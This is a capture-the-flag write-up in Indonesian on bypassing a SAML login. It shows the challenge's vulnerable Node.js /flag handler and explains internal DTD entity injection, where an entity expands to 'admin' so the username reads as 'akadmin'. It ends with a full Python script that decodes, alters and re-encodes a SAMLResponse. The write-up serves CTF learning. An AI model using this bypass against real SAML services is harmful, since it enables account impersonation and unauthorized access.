

# SAML

Bypass `SAML` auth system via DTD internal

## Endpoint
`Endpoint` dari flag kita cari djelaskan pada source code 

```html
<!doctype html>
<script>
app.get( '/flag', ( req, res ) => {
	if ( req.query.SAMLResponse ) {
		const xmlString = zlib.inflateRawSync( Buffer.from( req.query.SAMLResponse, 'base64' ) ).toString();
		const xmlDoc = DOMParser.parseFromString( xmlString, 'application/xml' );
		if ( !xmlDoc || !xmlString || xmlDoc.documentElement.tagName === 'parsererror' ) {
			throw new Error( "invalid saml xml" );
		}
		console.log( "Recieved the following SAML:\n" + xmlString );
		verifySaml( xmlString, xmlDoc );
		const username = xmlDoc.querySelector(
			'Attribute[Name="http://schemas.goauthentik.io/2021/02/saml/username"] AttributeValue'
		)?.textContent;
		if ( username === 'akadmin' ) {
			res.type( 'text/plain' ).send( process.env.FLAG || 'flag{fake}' );
		} else {
			res.type( 'text/plain' ).status(401).send( `Hello ${username}. You are not authorized to view the flag.` );
		}
	} else {
		doLogin(res);
	}
} );
</script>
```
dari code tersebut flag hanya bisa ditampilkan jika pada idp kita auth dengan username `akadmin`, masalah nya kita tidak mengetahu password dari akadmin itu sendiri , namun kita bisa mengelabuinya dengan DTD internal , jadi kita akan seolah olah login dengan username `akadmin`

## Vulnerable
untuk berhasil login sebagai akadmin kita akan memanfaatkan vulnerable yang terletak pada  code 
```html
<script>
		const xmlDoc = DOMParser.parseFromString( xmlString, 'application/xml' );
		if ( !xmlDoc || !xmlString || xmlDoc.documentElement.tagName === 'parsererror' ) {
			throw new Error( "invalid saml xml" );
		}
</script>
```
pada code tersebut   Aplikasi tidak men-disable DTD / entity processing (tidak ada opsi fitur keamanan seperti “no DTD”).
Artinya, attacker bisa menyisipkan:
```
<!DOCTYPE saml [
  <!ENTITY :125 "admin">
]>
```
yang nantinya kita akan gunakan untuk menyusun akadmin
```
<AttributeValue>ak&:125;</AttributeValue>
```
## Exploit

oke karena kita bisa mendeklarasikan entitity internal maka kita hanya perlu login semisal kita login dengan username `ak&:160406;` lalu kita copy isi dari SAMLresponse nya 
```
https://saml-web.challs.infobahnc.tf/flag?SAMLResponse=7Zlbb%2BJIFsff%2BRRRWtoXlPh%2BgZlE8g1sYmMuBgMvq3K5jG18w2Vj4NOvIZfuZLozvdpZjbTbUqSoTp069a9zylU%2Fm98xSJOiP0O4yDOMbo5pkuH%2B1fhwW5dZPwc4wv0MpAj3K9ifS5bZp%2B%2FJflHmVQ7z5PabIZ%2BPABijsory7HWIjx9uw6oq%2BgTRNM19w9zn5ZagSZIkyB7R%2Bvg42n559U79z8OnqAI%2BqMCr%2FxFl8AfxKYJkL%2FFbjzb8EpW4VfVw20a5vTEwrpGR4QpkVWsiae6Oou4o0SGFPkn3yd7m9kZFuIoyUF1H....
```
lalu copy isi dari parameter tersebut dan decode ( URL-decode -> Base64-decode -> DEFLATE (raw) decompress) lalu kita akan melihat  username `ak&160406;` ,menjadi `ak&amp;:160406;` ini dikarenakan dalam XMLResponse dari idp tidak memperbolehkan karakter `&`dan menencode nya. jadi kita perlu merubah semua karakter `ak&amp;:160406;` menjadi  `ak&160406;` dan kita sisipkan 
```
<!DOCTYPE saml [<!ENTITY :160406 "admin">]>
```
Compress lagi sebagai raw DEFLATE, lalu Base64, lalu URL-encode dan kirim kemali hasil saml response tersebut , berikut script lengkapnya: 

```python
from base64 import b64decode, b64encode
import zlib
import urllib.parse
import sys

def main():
    if len(sys.argv) != 2:
        print("Usage: python solve.py <SAMLResponse>")
        sys.exit(1)

    # Argumen pertama: nilai parameter SAMLResponse (URL-encoded)
    samlResponse = sys.argv[1]

    # Nama entity harus match dengan username: ak&:160406;
    entityName = b":160406"

    # 1) URL-decode -> Base64-decode -> DEFLATE (raw) decompress
    url_decoded = urllib.parse.unquote(samlResponse)   # str
    compressed = b64decode(url_decoded)                # bytes
    xml = zlib.decompress(compressed, -15)             # bytes (raw DEFLATE)

    # 2) Ubah "ak&amp;:160406;" menjadi "ak&:160406;"
    xml_modified = xml.replace(
        b"&amp;" + entityName + b";",
        b"&" + entityName + b";"
    )

    # 3) Prepend DTD yang define entity :160406 sebagai "admin"
    dtd = b'<!DOCTYPE saml [<!ENTITY ' + entityName + b' "admin">]>'
    payload = dtd + xml_modified

    # 4) Compress lagi sebagai raw DEFLATE, lalu Base64, lalu URL-encode
    comp = zlib.compressobj(wbits=-15)
    compressed_new = comp.compress(payload) + comp.flush()
    b64_new = b64encode(compressed_new)  # bytes -> base64
    result = urllib.parse.quote(b64_new.decode())  # decode ke str dulu, BARU quote

    print(result)

if __name__ == "__main__":
    main()

```

and booom💥💥

